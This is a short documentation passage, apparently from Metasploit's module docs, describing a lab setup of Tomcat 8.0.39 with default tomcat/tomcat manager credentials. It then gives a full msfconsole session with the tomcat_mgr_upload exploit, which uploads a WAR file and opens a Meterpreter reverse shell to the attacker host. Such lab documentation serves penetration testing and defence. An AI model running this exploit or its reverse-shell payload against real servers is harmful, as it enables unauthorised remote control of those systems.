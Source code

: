 ### Tomcat 8 (8.0.39)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat8](http://apache.osuosl.org/tomcat/tomcat-8/v8.0.39/bin/apache-tomcat-8.0.39.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 8.0\tomcat-users.xml` to add the following under the `<tomcat-users` line:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > check
    
    [*] Tomcat Manager found running on win platform and x86 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.108:8088 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying AiV6YUyTkEpIK5G87r0gmdf8fFH...
    [*] Uploading 6094 bytes as AiV6YUyTkEpIK5G87r0gmdf8fFH.war ...
    [*] Executing AiV6YUyTkEpIK5G87r0gmdf8fFH...
    [*] Executing /AiV6YUyTkEpIK5G87r0gmdf8fFH/u9TOPpZzy6dj21L.jsp...
    [*] Finding CSRF token...
    [*] Undeploying AiV6YUyTkEpIK5G87r0gmdf8fFH ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3508) at 2017-01-15 19:38:29 -0500
    